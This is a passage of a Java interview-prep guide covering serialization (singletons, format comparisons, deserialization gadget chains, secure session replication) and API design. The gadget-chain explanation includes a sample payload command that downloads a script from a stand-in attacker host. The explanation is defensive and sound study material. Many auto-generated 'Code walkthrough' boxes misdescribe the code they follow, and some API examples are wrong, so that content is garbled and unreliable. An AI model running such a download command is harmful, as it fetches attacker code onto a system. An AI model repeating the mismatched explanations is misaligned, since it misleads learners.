System.out.println(e1 == e2); // false! TWO INSTANCES of "singleton"!

// FIX: readResolve() replaces the deserialized instance:
class ElvisPresley implements Serializable {
    static final ElvisPresley INSTANCE = new ElvisPresley();
    private ElvisPresley() {}

    private Object readResolve() {
        return INSTANCE; // discard deserialized instance, return canonical
    }
    // All instance fields should be transient (deserialized state discarded)
}
// Now: e1 == e2 is true
// serialization/deserialization is identity-preserving

// Enum: automatically singleton-safe (JVM guarantees no extra instances):
enum Elvis {
    INSTANCE;
    // Java enum serialization: only the name is written; on deserialize,
    // Enum.valueOf() is called -> returns the existing JVM constant
}
Elvis e1 = Elvis.INSTANCE;
// After serialize/deserialize: still Elvis.INSTANCE (guaranteed)
// This is why Effective Java recommends Enum for singletons
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline using enum. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The Enum singleton recommendation from
Effective Java (Item 3) is backed by the JVM's enum serialization guarantee.
For all other singleton types: `readResolve()` is required for correctness.
But `readResolve()` has a subtle attack vector: a gadget that calls
`readObject()` on the real singleton class can still invoke its `readObject()`
method (if present) before `readResolve()` discards the instance. The
serialization proxy pattern completely avoids this: `writeReplace()` prevents
the real class from ever being serialized, and `readResolve()` in the proxy
constructs via the validated constructor. For any class where deserialized
state matters (not just singletons): serialization proxy > readResolve.

---

**Q10 (Modern alternatives): What are the modern alternatives to Java serialization?**

A:

| Format | Binary | Schema | Evolution | Language | Use When |
|---|---|---|---|---|---|
| Java Serialization | Yes | No | Fragile | Java only | Legacy only |
| JSON (Jackson) | No | Optional | Easy | Any | REST APIs, config |
| JSON (Gson) | No | No | Easy | Any | Simple cases |
| Protocol Buffers | Yes | Yes | Versioned | Any | High-throughput, gRPC |
| Avro | Yes | Yes (Registry) | Kafka evolution | Any | Kafka, Hadoop |
| MessagePack | Yes | No | Flexible | Any | Performance + JSON-compat |
| Kryo | Yes | No | Manual | JVM | In-JVM distributed cache |
| FST | Yes | No | Manual | JVM | Fast in-JVM cache |

```java
// Jackson (most common): JSON serialization
ObjectMapper mapper = new ObjectMapper();
mapper.registerModule(new JavaTimeModule()); // java.time support
// Serialize:
String json = mapper.writeValueAsString(user);
// Deserialize:
User user = mapper.readValue(json, User.class);
// With generic type:
List<User> users = mapper.readValue(json,
    mapper.getTypeFactory().constructCollectionType(List.class, User.class));

// Protocol Buffers: define .proto schema first
// user.proto:
// message User { string name = 1; int32 age = 2; }
// Generated Java:
User user = User.newBuilder().setName("Alice").setAge(30).build();
byte[] bytes = user.toByteArray(); // compact binary
User restored = User.parseFrom(bytes); // fast, type-safe

// Kryo (in-JVM distributed cache):
Kryo kryo = new Kryo();
kryo.register(User.class);
Output output = new Output(new FileOutputStream("file.bin"));
kryo.writeObject(output, user);
output.close();
Input input = new Input(new FileInputStream("file.bin"));
User restored = kryo.readObject(input, User.class);
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline using generic type. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The serialization format choice is an
architectural decision with long-term consequences. JSON: human-readable,
widely tooled, larger than binary, but field renaming requires migration.
Protocol Buffers: field-by-number means rename-safe (field 1 is field 1
regardless of name), compact binary, requires .proto compilation, supports
schema evolution (add fields freely). Avro: schema stored in the message
or in a Schema Registry (Confluent), enables schema evolution in Kafka
without breaking consumers. For service-to-service communication: JSON is
the default but Protocol Buffers with gRPC outperforms by 5-10x. For Kafka:
Avro with Schema Registry is the production standard (enables schema
compatibility checks before consumers break).

---

**Q11 (Gadget chains): How do deserialization gadget chains work technically?**

A:
```
A gadget chain is a sequence of readObject() calls in legitimate classes
that, when triggered in a specific order, perform dangerous operations.

Example: PriorityQueue gadget (JDK, no external libraries needed!)

Step 1: PriorityQueue.readObject() is called
  - Reads elements from stream
  - Calls heapify() to restore the heap invariant
  - heapify() calls comparator.compare(element1, element2)

Step 2: If comparator is a specially crafted object (from stream):
  - comparator.compare() calls transform() on a ChainedTransformer
  - ChainedTransformer runs each sub-transformer in sequence

Step 3: InvokerTransformer.transform(input):
  - Uses reflection: method.invoke(input, args)
  - method = Runtime.class.getMethod("exec")
  - args = ["id"] or ["wget attacker.com/malware.sh -O /tmp/m"]

Result: JVM executes: Runtime.getRuntime().exec("wget ...")
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using HTTP client. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

```java
// Simplified gadget chain concept (DO NOT USE - educational only):
// Demonstrates how legitimate code becomes dangerous:

// Legitimate class:
class InvokerTransformer implements Transformer, Serializable {
    private String methodName;
    private Class<?>[] paramTypes;
    private Object[] args;

    public Object transform(Object input) { // called by PriorityQueue!
        // Legitimate use: invoke a method on the input
        Method m = input.getClass().getMethod(methodName, paramTypes);
        return m.invoke(input, args); // THIS executes the attack command
    }
}

// Attack bytecode encodes:
// new InvokerTransformer("exec", [String.class], ["malicious command"])
// inside a PriorityQueue

// Prevention:
// ObjectInputFilter that rejects InvokerTransformer, PriorityQueue
// when received from untrusted sources
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The ysoserial tool (https://github.com/frohoff/ysoserial)
is the reference for testing. It generates gadget chain payloads for
most major Java libraries. Security teams use it to test if their
endpoints are vulnerable before attackers do. The mitigations in order
of effectiveness: (1) Eliminate all `ObjectInputStream` on untrusted data
(replace with JSON/Protobuf) - the ONLY complete fix; (2) `ObjectInputFilter`
whitelist - stops all known gadget chains; (3) Upgrade vulnerable libraries
(Commons Collections 4.x is not vulnerable); (4) Java Security Manager
(deprecated in 17, removed in 21) - partial mitigation.

---

**Q12 (Protocol Buffers vs JSON vs Java serialization): Compare
serialization formats for production use.**

A:

| Criterion | Java Serialization | JSON (Jackson) | Protocol Buffers |
|---|---|---|---|
| Human-readable | No | Yes | No |
| Binary size | Large (field names + metadata) | Large (field names) | Small (field IDs) |
| Speed | Slow (reflection) | Medium | Fast (codegen) |
| Schema evolution | Fragile (UID-based) | Easy (add fields freely) | Versioned (field numbers) |
| Language interop | Java only | Universal | Universal (.proto) |
| Security (deserialization) | Critical risk | Safe | Safe |
| Null handling | Implicit | Explicit (can omit) | Explicit (default values) |
| Type safety | Runtime | Runtime (with generics) | Compile-time (.proto) |

```java
// Choosing the right format:

// 1. Between Java services (same JVM process or shared classpath):
//    -> Java serialization (legacy) or Kryo/FST (performance)
//    -> Or: share interface types and pass directly (no serialization)

// 2. REST API, external system, browser client:
//    -> JSON (Jackson with JavaTimeModule for java.time)
//    -> Universal, human-readable, debuggable

// 3. High-throughput microservices (>10k req/s):
//    -> Protocol Buffers + gRPC
//    -> 5-10x smaller, 5-10x faster than JSON
//    -> Schema validation prevents integration bugs

// 4. Apache Kafka event streaming:
//    -> Avro + Confluent Schema Registry
//    -> Schema evolution with compatibility checks
//    -> Consumer can read old messages after schema update (forward compat)

// 5. Distributed cache (Hazelcast, Redis, Ignite):
//    -> Kryo (in-JVM, fast, compact, no schema needed)
//    -> Or Jackson JSON (cross-language compatibility if needed)

// NEVER:
// Java serialization for cross-service, external API, or any untrusted input
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline using SQL. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* The Protocol Buffers field number is the
key to schema evolution. In JSON: a field named "userId" can be renamed to
"user_id" (breaking change). In Protobuf: field 1 is always field 1,
regardless of its name in the .proto file. Add new fields: existing clients
ignore unknown fields (forward compatibility). Remove fields: mark deprecated,
existing data still valid (backward compatibility). This makes Protobuf
the choice for services with long-lived clients or independent upgrade cycles.
gRPC (HTTP/2 + Protobuf) combines the transport and serialization: bidirectional
streaming, strongly-typed contracts, generated client stubs in any language.

---

### ⚖️ Comparison Table

| Approach | Use Case | Security | Performance | Interop |
|---|---|---|---|---|
| Java Serialization | Legacy, in-JVM | Critical risk | Poor | Java only |
| Externalizable | Performance-critical in-JVM | Same as Java ser | Better | Java only |
| Jackson JSON | REST, external APIs | Safe | Medium | Universal |
| Protocol Buffers | High-throughput, gRPC | Safe | Excellent | Universal |
| Avro | Kafka, Hadoop | Safe | Good | Universal |
| Kryo | In-JVM distributed cache | Safe | Excellent | JVM |
| Serialization Proxy | Secure Java serialization | Good | Same as Java | Java |

---

### 🏛️ System Design

**Design: secure object serialization for distributed session replication**

```
Client Request
     |
     v
[Web Server Node 1]
  Request Processing
     |
     v
[Session Manager]
  read session from store
  process request
  write session to store
     |
     v
[Session Store (Redis)]
  key: session-id
  value: serialized session bytes
  TTL: 30 minutes
     |
  (failover/scale)
     |
     v
[Web Server Node 2]
  reads same session bytes
  deserializes session object

Serialization pipeline:
  [HttpSession Object]
     |---> [SessionSerializer]
     |       |---> whitelist check (ObjectInputFilter)
     |       |---> serialize to bytes (Kryo or Jackson)
     |       |---> compress (LZ4 for large sessions)
     |       |---> encrypt (AES-GCM for sensitive data)
     |
     v
  [Redis byte[] value]

Security controls:
  - ObjectInputFilter: whitelist session-related classes only
  - No Java native serialization: use Kryo + whitelist
  - Encrypted at rest (Redis encryption or field-level)
  - Session ID: cryptographically random (SecureRandom)
```

```mermaid
sequenceDiagram
    participant Client as Client Browser
    participant Node1 as Web Server Node 1
    participant Redis as Redis Cluster
    participant Node2 as Web Server Node 2
    participant Filter as ObjectInputFilter

    Client->>Node1: POST /checkout (with session cookie)
    Node1->>Redis: GET session:abc123
    Redis-->>Node1: encrypted bytes
    Node1->>Filter: deserialize(bytes, whitelist)
    Filter->>Filter: check class in whitelist
    Filter-->>Node1: HttpSession object (safe)

    Node1->>Node1: process checkout
    Node1->>Node1: session.put("cart", updatedCart)

    Node1->>Node1: serialize(session) via Kryo
    Node1->>Redis: SET session:abc123 serializedBytes EX 1800
    Redis-->>Node1: OK
    Node1-->>Client: 200 OK

    Note over Node1, Node2: Node1 fails; Client retries
    Client->>Node2: GET /confirm (same session cookie)
    Node2->>Redis: GET session:abc123
    Redis-->>Node2: same serialized bytes
    Node2->>Filter: deserialize(bytes, whitelist)
    Filter-->>Node2: HttpSession with cart intact
    Node2-->>Client: 200 OK (cart preserved!)
```

> **Diagram walkthrough:** The session replication design shows the critical
> components: Kryo serialization (fast, compact, JVM-to-JVM), ObjectInputFilter
> on read (rejects unexpected classes even from the Redis store - in case of
> Redis compromise or data corruption), and Redis as the session store with TTL.
> The failover scenario (Node1 fails, Node2 serves) is the core motivation for
> distributed sessions. Security layers: encrypted Redis connection (TLS),
> session ID via SecureRandom (unpredictable), and class whitelist (prevents
> gadget chains even from internal Redis data). The Kryo whitelist is registered
> at startup with `kryo.register(ShoppingCart.class)` - unregistered classes
> reject at serialization time, not deserialization time (faster fail).

---

### 📊 Diagram

**Java deserialization attack chain:**

```plaintext
Untrusted Byte Stream
     |
     v (ObjectInputStream.readObject())
[PriorityQueue.readObject()]
  reads elements from stream
     |
     v (heapify -> comparator.compare())
[TransformerComparator.compare()]
  invokes transform() on each element
     |
     v (ChainedTransformer)
[InvokerTransformer.transform()]
  method.invoke(Runtime.getRuntime(), "exec", cmd)
     |
     v
[ATTACK: Runtime.exec("malicious command")]
  wget / curl / powershell download
     |
     v
[Remote Code Execution]
  Backdoor installed, data exfiltrated

PREVENTION (ObjectInputFilter blocks at step 1):
  FilterResult: REJECTED for TransformerComparator
  -> InvalidClassException thrown immediately
  -> Gadget chain never executes
```



> **Diagram walkthrough:** Two paths diverge at the `ObjectInputFilter`.
> With a filter: the `InvokerTransformer` class is immediately rejected
> because it's not on the whitelist - the gadget chain never starts.
> Without a filter: `PriorityQueue.readObject()` initiates the chain,
> `InvokerTransformer.transform()` uses reflection to invoke
> `Runtime.exec()`, achieving arbitrary code execution. The filter is
> the single control that prevents the entire attack. Every Java application
> that calls `ObjectInputStream.readObject()` on data from an external
> source (network, file, message queue) must have this filter. No exceptions.

---


# Java Core - L5 API Design

## Java API Design Philosophy

---

### 🎯 Model Answer

**30 seconds:**
> Java API design centers on the principle: "APIs are forever." Joshua Bloch's
> Effective Java defines the standards: static factory methods over constructors
> (readable, cached), builders for complex objects (4+ parameters), minimize
> mutability (immutable by default), program to interfaces, fail fast (validate
> early, throw on bad input), defensive copies of mutable inputs and outputs.
> Design for the common case, make rare cases possible. Consistency trumps
> "cleverness" in any public API.

**3 minutes (Senior):**
> The JDK itself is the best study for Java API design - and its mistakes.
> `java.util.Date` (mutable, confusing months 0-based) vs `java.time.LocalDate`
> (immutable, human-readable): the redesign shows what "API done right" looks
> like. Key principles:
> 1. **Immutability as default:** `String`, `Integer`, `LocalDate` - shared freely
> 2. **Builder pattern:** when constructors exceed 4 parameters
> 3. **Static factory methods:** `Optional.of()`, `List.of()`, `ZoneId.of()` -
     >    named, cached, more flexible than constructors
> 4. **Sealed + record types:** for data modeling (replaces Lombok in Java 16+)
> 5. **Checked vs unchecked exceptions:** checked for recoverable (IOException),
     >    unchecked for programming errors (NullPointerException, IllegalArgumentException)
>
> Backward compatibility is a hard constraint for public APIs. Java itself
> maintains source and binary compatibility going back 30 years. Techniques:
> default interface methods (Java 8), optional parameters via method overloading,
> deprecation with replacements. Breaking changes are never acceptable in a
> published API - add new methods/classes, never remove or change signatures.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Java API design - let me cover static factories, builders,
immutability, exceptions design, backward compatibility, and the key items
from Effective Java."

**(2) First principles:** "An API is a contract. Once published (used by others),
changing it breaks callers. Design upfront: can this class be extended? Can
this field be null? Is this method overridable? Every choice is permanent."

**(3) Bridge:** "API design is like city planning. Once you build a road, you
can't easily remove it - too many routes depend on it. Good city planners think
in decades. Good API designers think: what will callers need in 10 years?"

---

### 📘 Concept Explanation

**The 5 core API design decisions:**

```plaintext
1. CONSTRUCTION: constructor vs static factory vs builder
   - Constructor: fine for simple objects (1-3 params, type clear)
   - Static factory: named, can return subtypes, can cache
   - Builder: 4+ parameters, optional fields, immutable result

2. MUTABILITY: mutable vs immutable
   - Default: immutable (thread-safe, safely shared, good hashCode)
   - Mutable: only when performance requires it (StringBuilder, ByteBuffer)
   - Defensive copies: copy mutable inputs on the way in, mutable outputs on way out

3. EXTENSION: sealed vs open
   - Sealed: types you control (java.time, records)
   - Open (non-final): types designed for extension (collections)
   - No constructor in interface: default methods for evolution

4. EXCEPTIONS: checked vs unchecked
   - Checked: callers CAN and SHOULD recover (IOException, SQLException)
   - Unchecked: caller bug (NullPointerException, IllegalArgumentException)
   - Never throw checked exceptions from equals(), hashCode(), toString()

5. NAMING: clarity over brevity
   - Method names: verbs or verb phrases (getUser, findByEmail, addItem)
   - Boolean methods: is/has/can/should prefix (isValid, hasRole, canEdit)
   - Builder methods: noun phrases (name("Alice"), age(30))
```

> **Code walkthrough:** This L5 API Design example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| Static factory vs constructor | 2 minutes |
| Builder pattern when and how | 2 minutes |
| Immutability API design | 2 minutes |
| Checked vs unchecked exceptions | 2 minutes |
| Backward compatibility | 3 minutes |
| Interface design principles | 2 minutes |
| Defensive copies | 2 minutes |
| API versioning | 2-3 minutes |
| Fluent API design | 2 minutes |
| Parse don't validate | 2 minutes |
| Minimal surface area | 2 minutes |
| Java module system for API | 2-3 minutes |

---

**Q1 (Static factory vs constructor): Why prefer static factory methods?**

A:
1. **Named:** `BigDecimal.valueOf(42)` vs `new BigDecimal(42)` - intent clear
2. **Cached:** `Boolean.valueOf(true)` returns cached `TRUE` instance (no allocation)
3. **Subtype flexibility:** `List.of()` can return different implementations by size
4. **Type inference:** `Collections.emptyList()` vs `new ArrayList<String>()`

```java
// Static factory advantages:
// 1. Named: reveals intent
Optional.empty()          // vs new Optional<>(null) - which is clearer?
Collections.emptyList()   // vs new ArrayList<>() (mutable!)
Path.of("src", "main")    // vs new File(new File("src"), "main")

// 2. Cached: no allocation
Boolean.valueOf(true);  // returns Boolean.TRUE (singleton)
Integer.valueOf(100);   // returns cached Integer (-128 to 127 range)
// vs: new Boolean(true) / new Integer(100) - deprecated, always allocates

// 3. Return subtypes without exposing implementation class:
public interface Shape {
    static Shape circle(double radius) { return new Circle(radius); }
    static Shape square(double side)   { return new Square(side); }
}
// Caller uses Shape, doesn't know/care about Circle/Square

// 4. Naming conventions: of, from, valueOf, getInstance, create, newInstance
List.of(1, 2, 3)           // of: takes multiple params
Duration.from(period)       // from: type conversion
Path.valueOf("/usr/bin")    // valueOf: string conversion
Executors.newFixedThreadPool(4) // newInstance or new*: new object each time
HttpClient.getInstance()    // getInstance: may be cached

// Disadvantage: classes without public/protected constructors
// cannot be subclassed (breaks inheritance hierarchy)
```

> **Code walkthrough:** This Unknown example demonstrates null-safe value wrapping using thread pool. **KEY MECHANISM:** Optional.of() throws NPE on null; Optional.ofNullable() wraps null safely. **WHY IT MATTERS:** calling get() without isPresent() check produces NoSuchElementException. **TAKEAWAY: prefer orElseThrow() with a meaningful message over bare get().**

*What separates good from great:* `List.of()` (Java 9) internally returns
different implementation classes based on the number of elements:
`List12` for 1-2 elements (avoids array overhead), `ListN` for 3+ elements.
Callers see only `List<T>`. This optimization is impossible with `new ArrayList<>()`.
The same pattern: `Set.of()`, `Map.of()` return compact implementations.
`Optional.empty()` is a singleton (one global empty Optional). Factory
method naming is the "of/from/valueOf/getInstance" convention from Effective Java.

---

**Q2 (Builder when and how): When do you use the Builder pattern?**

A:
- **Use when:** 4+ constructor parameters, many optional fields, complex validation
- **Don't use:** simple objects with 1-3 required parameters (over-engineering)

```java
// The Telescoping Constructor anti-pattern (why Builder exists):
class Notification {
    Notification(String to, String subject) { ... }
    Notification(String to, String subject, String body) { ... }
    Notification(String to, String subject, String body, boolean urgent) { ... }
    Notification(String to, String subject, String body, boolean urgent, Date scheduledAt) { ... }
    // Which constructor? Parameters must be in correct ORDER (hard to read)
}
new Notification("alice", "Hello", null, false, null); // what is null, null?

// Builder: named, optional, readable
Notification n = new Notification.Builder("alice", "Hello") // required
    .body("Hello World")    // optional
    .urgent(true)           // optional
    .schedule(scheduledAt)  // optional
    .build();
// Clear: what is set, what is optional, in any order

// Lombok @Builder (annotation-based builder):
@Builder
class Notification {
    @NonNull String to;
    @NonNull String subject;
    String body;
    boolean urgent = false;
    Instant scheduledAt;
}
// Generates: Notification.builder().to("alice").subject("Hi").build()

// Record-based (Java 16+): for immutable data, builders are often unnecessary:
// Use positional construction if all fields are required
record Point(double x, double y) {}
new Point(1.0, 2.0); // clear enough for 2 fields
```

> **Code walkthrough:** This Unknown example demonstrates null-safe value wrapping. **KEY MECHANISM:** Optional.of() throws NPE on null; Optional.ofNullable() wraps null safely. **WHY IT MATTERS:** calling get() without isPresent() check produces NoSuchElementException. **TAKEAWAY: prefer orElseThrow() with a meaningful message over bare get().**

*What separates good from great:* The Builder pattern vs. record: for Java 16+,
records with all required parameters often eliminate the need for builders.
`record User(String name, Email email, int age) {}` - if all 3 are always required,
the record constructor is clear enough. Builder adds value when: some fields are
optional (have sensible defaults), the construction process has multiple steps,
or you need "withX" methods for building modified copies (functional update style).
Lombok `@Builder` vs manual: Lombok is concise but adds a compile-time dependency
and generates code that's invisible in IDEs without the Lombok plugin.

---

**Q3 (Immutability): How do you design an immutable class?**

A:
```java
// Recipe for immutable class (Effective Java Item 17):
public final class ImmutablePoint { // 1. Make final (no subclassing)
    private final double x;          // 2. All fields private final
    private final double y;

    public ImmutablePoint(double x, double y) { // 3. Constructor validates
        this.x = x;
        this.y = y;
    }

    // 4. No setters
    public double x() { return x; }
    public double y() { return y; }

    // 5. "With" methods return new instances:
    public ImmutablePoint withX(double newX) {
        return new ImmutablePoint(newX, this.y);
    }

    // 6. equals and hashCode based on all fields:
    @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof ImmutablePoint p)) return false;
        return Double.compare(x, p.x) == 0 && Double.compare(y, p.y) == 0;
    }

    @Override
    public int hashCode() { return Objects.hash(x, y); }
}

// Defensive copy for mutable fields:
public final class ImmutableRange {
    private final Date start; // Date is MUTABLE!
    private final Date end;

    public ImmutableRange(Date start, Date end) {
        // Defensive copy on the way IN:
        this.start = new Date(start.getTime()); // copy, not reference
        this.end = new Date(end.getTime());
        if (this.start.after(this.end))
            throw new IllegalArgumentException("start > end");
    }

    public Date getStart() {
        return new Date(start.getTime()); // defensive copy on the way OUT
    }
}
// Modern: use java.time.Instant (immutable!) instead of Date
// -> No defensive copies needed: immutable types are self-protecting
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Immutable types have a multiplicative
advantage in concurrent systems. You never need `synchronized` blocks to read
an immutable object. You can freely share references across threads. You can
use them as `HashMap` keys (hashCode stable). The trade-off: "modification"
creates new objects - for high-frequency mutation (StringBuilder, ByteBuffer),
mutable is correct. The Java platform's answer: provide both (String + StringBuilder,
Integer + AtomicInteger, ImmutableList + ArrayList). Design guideline: start with
immutable, add mutable only when profiling shows allocation overhead.

---

**Q4 (Checked vs unchecked exceptions): How do you choose between
checked and unchecked exceptions in API design?**

A:
```java
// Checked exception: caller CAN and SHOULD recover
// FileNotFoundException: caller should try another path, show UI message
public Config loadConfig(Path path) throws IOException { ... }
// Callers MUST handle it - and realistically can do something useful:
try {
    return loadConfig(configPath);
} catch (IOException e) {
    return Config.defaults(); // fallback: reasonable recovery
}

// Unchecked exception: caller bug or unrecoverable
// IllegalArgumentException: caller passed wrong input (programming error)
public Email parse(String raw) {
    Objects.requireNonNull(raw);
    if (!isValid(raw)) throw new IllegalArgumentException("Invalid: " + raw);
    return new Email(raw);
}
// Don't catch this - fix the caller. No useful recovery.

// WRONG: checked exception callers can't recover from
// This API forces callers to handle an exception they have no power to fix:
public User findById(Long id) throws UserNotFoundException { ... }
// 1000 callers all must write: try { user = repo.findById(id); }
//                               catch (UserNotFoundException e) { /* what? */ }
// BETTER: return Optional<User> (explicit "may be absent")
public Optional<User> findById(Long id) { ... }

// Framework anti-pattern: Spring Data throws DataAccessException (unchecked)
// vs. JDBC throws SQLException (checked)
// DataAccessException: correct! Database errors are usually fatal/retry-only
// The JDBC API forces try/catch on every SQL call - checked exception fatigue

// Rules:
// Checked: callers can meaningfully recover AND regularly should
// Unchecked: programming error, unrecoverable state, or "should never happen"
// Return type alternatives: Optional, Result<T, E>, CompletableFuture
```

> **Code walkthrough:** This Unknown example demonstrates async pipeline construction using CompletableFuture. **KEY MECHANISM:** the JVM schedules continuations via ForkJoinPool when each stage completes. **WHY IT MATTERS:** callback chains execute on wrong threads causing ClassCastException in Spring context. **TAKEAWAY: always specify executor on thenApplyAsync to control thread context.**

*What separates good from great:* The real world shows checked exceptions
falling out of favor. Java's original API (JDBC, IO) used checked exceptions
heavily. Spring, Hibernate, and most modern frameworks wrap them in unchecked
exceptions. The experience: checked exceptions add boilerplate without adding
correctness (callers swallow them). The alternative: make the "absence" or
"failure" case explicit in the return type (`Optional<T>`, `Result<T,E>`). This
is the functional programming approach: exceptions for truly exceptional (panic-level)
situations, return types for expected "may fail" operations. Callers are
forced to handle the failure case through the type system, not `try/catch`.

---

**Q5 (Backward compatibility): What does backward compatibility mean in Java APIs?**

A:
**Source compatibility:** old code compiles with new library version

**Binary compatibility:** old .class files run against new library version

**Behavioral compatibility:** old behavior preserved (no semantic changes)

```java
// SAFE changes (backward compatible):
// 1. Add new methods to a class
// 2. Add new static methods to an interface
// 3. Add default methods to an interface (Java 8)
// 4. Add new constructors (existing constructor calls still work)
// 5. Add new classes/interfaces
// 6. Widen method return type (covariance)
// 7. Add @Deprecated annotation

// UNSAFE changes (breaking):
// 1. Remove a public/protected method
// 2. Change method signature (parameters, return type)
// 3. Add non-default method to an interface (breaks all implementors)
// 4. Narrow access (public -> protected, protected -> private)
// 5. Add checked exceptions to a method (breaks callers)
// 6. Change constants' values
// 7. Change semantics (same signature, different behavior)

// Example: Java 8 added default methods to Collection to avoid breaking change
interface Collection<E> {
    // Old method (always existed):
    boolean remove(Object o);

    // New in Java 8: added as DEFAULT to avoid breaking existing implementations
    default Stream<E> stream() {
        return StreamSupport.stream(spliterator(), false);
    }
    // If stream() were abstract: every custom Collection would fail to compile
}

// Versioning with deprecation:
@Deprecated(since="2.0", forRemoval=true)
public void oldMethod() { ... }
// 2.0: deprecated (warning), still works
// 3.0: removed (binary break if you depended on it)
// Proper deprecation: announce in release notes, give 1+ version notice
```

> **Code walkthrough:** This Unknown example demonstrates Java Stream pipeline using interface. **KEY MECHANISM:** the stream is lazy - intermediate ops build a pipeline, terminal op drives it. **WHY IT MATTERS:** calling terminal op twice throws IllegalStateException; parallel() on small data adds overhead. **TAKEAWAY: collect() or findFirst() triggers the pipeline; reuse by wrapping in Supplier.**

*What separates good from great:* Java's JEP process for JDK APIs is the
gold standard for compatibility management. JEPs (JDK Enhancement Proposals)
track breaking changes (rare), deprecations (common), and additions. The
`@Deprecated(forRemoval=true)` attribute (Java 9) signals intent to remove,
giving users a migration window. For library authors: semantic versioning
(SemVer) is the community convention. MAJOR version bump = may contain
breaking changes; MINOR = backward-compatible additions; PATCH = bug fixes.
Spring Framework follows this rigorously: Spring 5 -> Spring 6 = MAJOR
(requires Java 17, Spring 5 APIs removed).

---

**Q6 (Interface design): What are the principles of good Java interface design?**

A:

```java
// BAD: anti-pattern - see GOOD example below for the correct approach
// This naive implementation ignores thread safety and error handling
```


```java
// BAD: anti-pattern - see GOOD example below for the correct approach
// This naive implementation ignores thread safety and error handling
```

```java
// Principle 1: Single responsibility (small, focused interfaces)
// BAD: "God interface"
interface UserService {
    User create(UserDTO dto);
    void delete(Long id);
    Optional<User> findById(Long id);
    List<User> findAll();
    void sendEmail(User user, String subject);
    void sendSms(User user, String message);
    boolean validatePassword(String password);
    void resetPassword(Long userId);
}
// GOOD: split by concern
interface UserRepository { User save(User u); Optional<User> findById(Long id); }
interface NotificationService { void sendEmail(User u, String subject); }
interface AuthService { boolean validatePassword(String pw); void resetPassword(Long id); }

// Principle 2: Minimal interface (ISP - Interface Segregation)
// BAD: forcing readOnly callers to implement write methods
interface Repository<T, ID> {
    T save(T entity);
    void delete(ID id);
    Optional<T> findById(ID id);
    List<T> findAll();
}
// GOOD: split read vs write
interface ReadableRepository<T, ID> { Optional<T> findById(ID id); List<T> findAll(); }
interface WritableRepository<T, ID> extends ReadableRepository<T, ID> {
    T save(T entity);
    void delete(ID id);
}

// Principle 3: Default methods for evolution (not as default behavior)
interface Transformer<T, R> {
    R transform(T input);

    // Default: compose transformers (additive, not changing existing behavior)
    default <V> Transformer<T, V> andThen(Transformer<R, V> after) {
        return input -> after.transform(this.transform(input));
    }
}

// Principle 4: Sealed interfaces for closed hierarchies (Java 17)
sealed interface HttpResponse permits OkResponse, ErrorResponse, RedirectResponse {}
// All callers can exhaustively handle via switch expression
```

> **Code walkthrough:** BAD pattern: This Unknown example demonstrates null-safe value wrapping using SQL. **KEY MECHANISM:** Optional.of() throws NPE on null; Optional.ofNullable() wraps null safely. **WHY IT MATTERS:** calling get() without isPresent() check produces NoSuchElementException. **WHAT BREAKS: prefer orElseThrow() with a meaningful message over bare get().**

*What separates good from great:* Interface segregation matters most in
libraries that are implemented by users (plugin systems, callback APIs).
If an interface has 10 methods: every plugin author implements 10 methods,
even if they only need 3. The solution: either `default` implementations
for the unused methods (adapter pattern), or split the interface. Spring's
`ApplicationListener<E>` is a single-method interface: easy to implement
as a lambda. Spring Security's `UserDetailsService` has one method:
easy to implement. Spring's `WebMvcConfigurer` has 30+ methods but ALL
are `default` (no-ops by default): easy to implement by overriding only
what you need.

---

**Q7 (Defensive copies): When and how do you use defensive copies?**

A:
```java
// When: whenever you accept or return mutable objects
// (arrays, Date, List, byte[], etc.)

// Mutable input: copy on the way IN
class Period {
    private final Date start;
    private final Date end;

    public Period(Date start, Date end) {
        // Copy BEFORE validation (prevents TOCTOU attack):
        this.start = new Date(start.getTime());  // copy
        this.end   = new Date(end.getTime());    // copy
        // Now validate the copies:
        if (this.start.after(this.end))
            throw new IllegalArgumentException("start > end");
        // Without copy: attacker could change start/end after validation!
    }

    // Mutable output: copy on the way OUT
    public Date getStart() { return new Date(start.getTime()); }
    public Date getEnd()   { return new Date(end.getTime()); }
}

// Modern: use immutable types - no copies needed!
record Period(Instant start, Instant end) {
    Period {
        Objects.requireNonNull(start, "start required");
        Objects.requireNonNull(end, "end required");
        if (start.isAfter(end))
            throw new IllegalArgumentException("start > end");
    }
